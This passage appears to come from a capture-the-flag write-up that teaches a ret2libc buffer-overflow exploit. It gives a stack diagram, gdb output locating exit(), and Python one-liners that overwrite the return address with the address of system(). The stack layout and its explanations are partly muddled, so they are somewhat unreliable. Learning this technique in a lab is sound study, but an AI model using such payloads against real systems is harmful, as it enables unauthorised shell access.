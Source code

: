<br />

- *The `stack` **AFTER** the `ret2libc` technique :*
```lua
<high address>
+------------------------------+  <-- Top of the stack
|       "/bin/sh" string       |  <-- Argument for system() ("/bin/sh" string)
+------------------------------+
|     Address of system()      |  <-- EIP redirected to system()
+------------------------------+
|   4 empty bytes (padding)    |  <-- Stack alignment
+------------------------------+
|       Address of exit()      |  <-- Address of the exit() function
+------------------------------+
|      Old return address      |  <-- Buffer overwritten here
+------------------------------+
|                              |
|                              |
.            etc...            .
.                              .
<low address>
```
After the `ret2libc` technique :
1. The **buffer** has been overwritten here, replacing the **old return address** with **new instructions**
2. The address of the `system()` function points to the `"/bin/sh"` string to execute a **shell** (we seeing that later)
3. **The 4 empty bytes** are used to maintain the correct stack alignment
4. The address of the `exit()` function allows for a clean exit after the execution of `system()`

**Why we need the address of the `exit` function ?**

- At the end of the `system` function, the program will not exit, so we need to call the `exit` function to exit the program, or even 4 randoms bytes of padding to align the stack. If we don't do that, the program will crash.

Again, we consider the program crash, after we found the address of `system`, we can see the address of the `exit` function :

```sh
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb)
```

### _Okay, we have the address of the `exit` function !_

Now we have this payload :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7"'; cat
```

But we can also add 4 randoms bytes of padding to align the stack :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "AAAA"'; cat
```
